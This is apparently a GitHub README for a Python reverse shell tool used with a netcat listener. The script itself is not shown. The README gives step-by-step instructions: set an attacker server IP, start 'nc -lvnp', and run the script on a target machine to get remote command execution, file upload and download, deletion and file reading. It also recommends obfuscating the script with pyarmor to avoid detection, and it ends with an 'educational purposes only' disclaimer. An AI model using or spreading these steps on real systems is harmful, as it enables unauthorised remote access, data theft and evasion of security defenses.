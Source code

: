 # Created By ANONYMOUSx46

## Python Coded Revese Shell:

![Kali Linux](https://img.shields.io/badge/Kali%20Linux-Penetration%20Testing-blue?style=flat&logo=kali-linux)
![Netcat](https://img.shields.io/badge/Netcat-Network%20Utility-green?style=flat&logo=linux)
![Python](https://img.shields.io/badge/Python-3.x-yellow?style=flat&logo=python)

A Python-based reverse shell script that works seamlessly with the Kali Linux tool **netcat**. This script allows you to establish a remote connection to a machine, execute commands, and transfer files. The code can also be run through an obfuscator tool for added security.

## Prerequisites

- Python 3.x
- Kali Linux with netcat installed
- Obfuscator tool (optional)

## Installation

1. **Clone the repository:**

    ```bash
    git clone https://github.com/yourusername/Reverse-shell.git
    cd Reverse-shell
    ```

2. **Configure the server address and port:**

    Edit the Python script to set your server's IP address and port:

    ```python
    server_address = 'YOUR_SERVER_IP'
    server_port = YOUR_SERVER_PORT
    ```

3. **Run the script:**

    ```bash
    python3 Rev3.py
    ```

## Usage

1. **Set up the listener on your Kali Linux machine:**

    ```bash
    nc -lvnp <PORT>
    ```

    Replace `<PORT>` with the port number you configured in the Python script.

2. **Run the reverse shell script on the target machine:**

    ```bash
    python3 Rev3.py
    ```

3. **Available Commands:**

    - `quit`: Exit the reverse shell.
    - `clear`: Clear the terminal screen.
    - `cd <directory>`: Change the current directory.
    - `set <var>=<value>`: Set an environment variable.
    - `upload <file_path>`: Upload a file to the target machine.
    - `download <file_path>`: Download a file from the target machine.
    - `rm <file_path>`: Remove a file from the target machine.
    - `mkdir <directory_path>`: Create a directory on the target machine.
    - `cat <file_path>`: Read a file's contents.
    - `python <script_path>`: Execute a Python script.

## Obfuscation (Optional)

For added security, you can run the script through an obfuscator tool. One popular option is [pyarmor](https://pypi.org/project/pyarmor/).

1. **Install pyarmor:**

    ```bash
    pip install pyarmor
    ```

2. **Obfuscate the script:**

    ```bash
    pyarmor pack -x " --exclude obf " reverse_shell.py
    ```

## Disclaimer

This project is intended for educational purposes only. The author is not responsible for any misuse of this tool.
